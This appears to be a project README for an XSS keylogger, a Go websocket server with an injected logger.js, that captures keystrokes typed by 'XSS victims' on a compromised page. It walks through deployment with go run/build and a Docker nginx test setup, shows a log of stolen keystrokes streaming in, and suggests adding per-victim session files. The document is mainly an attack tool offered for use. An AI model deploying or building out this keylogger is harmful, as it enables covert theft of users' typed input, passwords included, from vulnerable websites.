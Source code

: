 # Keylogger

## How it Works

* Deliver index.html over a weberver
* Store logger.js with the go executable, or with the same directory as main.go.
* Run command:

```
go run main.go --listen-address=127.0.0.1:8080 --ws-addr=127.0.0.1:8080
```

* Go to your webserver, you should see a connection in the console once you hit index.html
* This is a simple test, add logic around sessions and save to txt file to help separate XSS victims.

## Local Test Your Payload
* Setup an nginx webserver

```
docker run --rm -it --name xss-keylogger-nginx -p 80:80 nginx
```

* Obtain your container ID and copy over index.html and logger.js

```
$ docker container ls
CONTAINER ID   IMAGE     COMMAND                  CREATED         STATUS         PORTS                               NAMES
f248fa529335   nginx     "/docker-entrypoint.…"   5 seconds ago   Up 4 seconds   0.0.0.0:80->80/tcp, :::80->80/tcp   xss-keylogger-nginx

$ docker cp logger.js f248fa529335:/usr/share/nginx/html/logger.js
Successfully copied 2.56kB to f248fa529335:/usr/share/nginx/html/logger.js

$ docker cp index.html f248fa529335:/usr/share/nginx/html/index.html
Successfully copied 2.05kB to f248fa529335:/usr/share/nginx/html/index.html
```

* Execute your golang program, wait for connections

```
$ CGO_ENABLED=0 go build -o keylogger

$ ./keylogger --listen-address 127.0.0.1:8080 --ws-addr 127.0.0.1:8080
```

## Example usage:

```
2024/02/22 21:20:57 [*] Server starting
2024/02/22 21:21:02 [*] /k.js hit!
2024/02/22 21:21:02 [*] WebSocket created, stealing user input.
Connection from 192.168.1.10:37100

From 192.168.1.10:37100: 
From 192.168.1.10:37100: Y
From 192.168.1.10:37100: A
From 192.168.1.10:37100: 
From 192.168.1.10:37100: B
From 192.168.1.10:37100: O
From 192.168.1.10:37100: I
From 192.168.1.10:37100: 
```


## Next steps

* Add Sessions and write to individual files
